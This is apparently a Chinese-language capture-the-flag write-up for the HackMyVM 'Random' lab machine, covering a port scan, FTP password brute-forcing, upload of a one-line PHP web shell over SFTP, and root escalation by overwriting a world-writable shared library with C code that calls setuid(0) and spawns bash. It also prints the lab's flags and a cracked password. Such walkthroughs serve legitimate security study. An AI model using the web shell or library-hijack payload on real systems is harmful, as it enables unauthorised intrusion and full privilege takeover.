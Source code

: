 ```yaml
---
{"dg-publish":true,"tags":["HMV","动态链接库替换"],"难度":"⭐️⭐️⭐️","作者":"sml","permalink":"/24-渗透/HMV/15.Random/","dgPassFrontmatter":true,"noteIcon":"","created":"2024-11-22T19:13:18.870+08:00","updated":"2024-11-25T01:08:02.968+08:00"}
---
```




## 1. 基本信息^toc

- [[24-渗透/HMV/15.Random#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/15.Random#2. 信息收集\|2. 信息收集]]
- [[24-渗透/HMV/15.Random#3. FTP\|3. FTP]]
- [[24-渗透/HMV/15.Random#4. SFTP\|4. SFTP]]
- [[24-渗透/HMV/15.Random#5. 提权 -动态链接库替换\|5. 提权 -动态链接库替换]]

```
靶机链接：https://hackmyvm.eu/machines/machine.php?vm=Random
```


```
作者：sml
```

```
难度：⭐️⭐️⭐️
```


```
知识点：动态链接库替换
```
## 2. 信息收集

```Bash
┌──(root㉿kali)-[/home/kali/hmv/random]
└─# nmap 192.168.9.17 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-13 19:38 CST
Nmap scan report for 192.168.9.17
Host is up (0.00040s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:88:4C:D2 (Oracle VirtualBox virtual NIC)
```
首页

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.001.png)

获取到两个用户

```Bash
alan 
eleanor
```
目录扫描 啥都没有

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.002.png)

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.003.png)

## 3. FTP

匿名登录发现进不来目录

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.004.png)

尝试用另外两个用户登录

hydra爆破试试

他说alan不能ssh登录

那么eleanor 用户可以ssh

爆破eleanor用户

这爆破出用户eleanor 的ftp密码是 ladybug

但权限只有读。

所以无法上传马儿

## 4. SFTP

尝试用这个密码ssh上去

失败了

```Bash
ssh eleanor@192.168.9.17
eleanor@192.168.9.17's password:
This service allows sftp connections only.
Connection to 192.168.9.17 closed.
```
但告诉我们允许sftp链接

```Bash
sftp eleanor@192.168.9.17
```
用sftp连接上来就可以上传文件了

直接上传一个马儿

```Bash
<?php system($\_POST['cmd']);
echo ok;?>
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.005.png)

## 5. 提权 -动态链接库替换

上来后基本命令检测没有利用的

我们之前不让用密码进行ssh登录

但是可以用密码切换用户

```Bash
su eleanor
eleanor@random:/home/eleanor$ cat note.txt
alan disabled my access via SSH but not my account.
He is a bad admin!
-eleanor
eleanor@random:/home/eleanor$ cat user.txt
ihavethapowah
eleanor@random:/home/eleanor$
```

近用户目录发现 random可以被执

直接下下来分析

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.006.png)

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.007.png)

就是检测以当前时间为种子的随机数的0-9的余数能不能与我们输入的值相等

我们只要一直输入0-9之间的数，总可以匹配上

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.008.png)

回去看一下发现makemeroot函数没有写执行代码，直接return自己了

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.009.png)

可能是调用了本地的动态链接库

```Bash
ldd random
eleanor@random:/home/alan$ ldd random
        linux-vdso.so.1 (0x00007ffc0a3e5000)
        librooter.so => /lib/librooter.so (0x00007f7bcafa1000)
        libc.so.6 => /lib/x86\_64-linux-gnu/libc.so.6 (0x00007f7bcade0000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f7bcafb2000)
```
而且/lib/librooter.so链接库是可写的

```Bash
eleanor@random:/home/alan$ ls /lib/librooter.so -la
-rwxrwxrwx 1 root root 15984 Oct 19  2020 /lib/librooter.so
```
直接替换掉

```Bash
#include <stdlib.h>

void makemeroot()
{
        setuid(0);
        setgid(0);
        system("/bin/bash");
}
```
本地编译好后传上去替换即可

然后运行即可获取root

```Bash
howiarrivedhere
```


